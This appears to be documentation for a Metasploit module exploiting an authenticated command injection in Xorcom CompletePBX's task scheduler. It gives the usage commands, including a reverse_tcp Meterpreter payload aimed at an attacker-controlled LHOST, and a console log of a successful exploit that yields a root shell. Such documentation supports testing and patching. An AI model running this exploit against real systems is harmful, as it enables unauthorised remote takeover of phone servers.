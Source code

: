 ## Vulnerable Application

This Metasploit module exploits an **Authenticated Command Injection** vulnerability in **Xorcom CompletePBX <= 5.2.35**.
The issue resides in the task scheduler functionality, where user-controlled input is improperly sanitized, allowing
arbitrary command execution with web server privileges.

Only the **superadmin** user (`admin`) has the necessary permissions to trigger this exploit.
Even when creating a new user with maximum privileges, the vulnerability does not work.

The vulnerability is identified as **CVE-2025-30004**.

### Setup

Download the ova file here: [](https://archive.org/details/completepbx-5-2-27-vuln)

## Verification Steps

1. Deploy a vulnerable instance of **Xorcom CompletePBX <= 5.2.35**.
2. Launch **Metasploit Framework**.
3. Use the module:
```
use exploit/linux/http/xorcom_completepbx_scheduler_rce
```
4. Set the **target host**:
```
set RHOSTS [TARGET_IP]
```
5. Set authentication credentials:
```
set USERNAME [VALID_ADMIN_USERNAME]
set PASSWORD [VALID_ADMIN_PASSWORD]
```
6. Configure the payload:
```
set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
set LHOST [ATTACKER_IP]
set LPORT [LISTENER_PORT]
```
7. Execute the module:
```
run
```
8. If successful, a **Meterpreter session** will be opened on the target.

## Options

- `USERNAME`: Admin username for authentication.
- `PASSWORD`: Admin password for authentication.

## Scenarios

### Successful Exploitation Against a Vulnerable CompletePBX Instance

**Setup**:

- **Target**: Xorcom CompletePBX <= 5.2.35
- **Attacker**: Metasploit Framework instance

**Steps**:

```bash
msf6 exploit(linux/http/xorcom_completepbx_scheduler) > run http://192.168.56.101/
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if the target is running CompletePBX...
[+] Detected CompletePBX on 192.168.56.101:80
[+] The target appears to be vulnerable.
[*] Attempting authentication with username: admin
[+] Authentication successful! Session ID: sid=3b6c002860ddb5ca104e25eaa439b35052c443df
[*] Creating malicious scheduled task with description: Ut quis eum sed.
[+] Malicious task successfully created.
[*] Retrieving latest task ID for description: Ut quis eum sed....
[+] Found task with ID: 38
[*] Executing malicious task ID 38...
[*] Sending stage (3045380 bytes) to 192.168.56.101
[+] Task executed successfully!
[*] Sending delete request (mode=delete) for task ID 38...
[*] Sending delete request (mode=deleteConfirmed) for task ID 38...
[+] Task 38 deleted successfully!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.101:33372) at 2025-03-18 17:18:23 +0100

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : Debian 12.5 (Linux 6.1.0-20-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### Impact

- This vulnerability grants **remote code execution** capabilities.
- Attackers can execute arbitrary commands as the **web server user**, potentially leading to full system compromise.
- Exploitation provides a **Meterpreter session** for post-exploitation activities.

This module is designed to **demonstrate and automate** the exploitation of this issue using the Metasploit framework.
